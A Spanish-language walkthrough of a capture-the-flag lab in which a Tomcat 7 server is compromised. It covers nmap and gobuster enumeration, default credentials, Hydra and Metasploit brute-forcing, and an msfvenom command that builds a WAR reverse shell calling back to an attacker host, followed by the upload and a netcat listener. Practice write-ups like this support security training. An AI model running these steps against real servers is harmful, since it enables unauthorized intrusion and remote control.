
Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.95
Completed SYN Stealth Scan at 15:49, 26.59s elapsed (65535 total ports)
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.26s latency).
Scanned at 2024-05-30 15:48:46 -03 for 26s
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
8080/tcp open http-proxy syn-ack ttl 127
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p8080 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.26s latency).
PORT STATE SERVICE VERSION
8080/tcp open http Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
Utilizamos whatweb para enumerar qué tecnologías está utilizando:

Fuzzing de directorios
Si accedemos al sitio http://10.10.1.95:8080/ solo vemos el sitio por default de Apache. Vamos a hacer fuzzing utilizando gobuster para intentar encontrar directorios ocultos usando fuerza bruta:
gobuster dir -u http://10.10.10.95:8080 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50

Accedemos al http://10.10.10.95:8080/manager/ y nos pide credenciales. Probamos con admin / admin, ya que son las credenciales por default, pero obtenemos un 403 Access Denied. De todas formas, en el mismo output vemos en texto claro los siguientes valores:
Username: tomcat
Password: s3cret

Si volvemos a ingresar a http://10.10.10.95:8080/manager/ y proporcionamos estas credenciales, estamos dentro del Gestor de Aplicaciones Web de Tomcat.
Fuerza bruta de credenciales
Otra forma de obtener las credenciales es utilizando fuerza bruta.
Con Metasploit
Podemos usar el módulo /auxiliary/scanner/http/tomcat_mgr_login:

Con Hydra
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html

Intrusión
Vemos que podemos subir archivos WAR:

Por lo que vamos a generar un payload con msfvenom que nos de una Reverse Shell y vamos a intentar subirlo:
msfvenom -p java/jsp_shell_reverse_tcp -f war LHOST=10.10.14.102 LPORT=443 -o shell.war

Luego lo subimos:

Nos quedamos a la escucha con netcat. Al ejecutar el archivo que subimos (haciendo click en /shell), obtenemos la Reverse Shell:

Desde aquí ya podemos ver ambas flags:

Para realizar la explotación con Metasploit podríamos utilizar el módulo exploit/multi/http/tomcat_mgr_upload.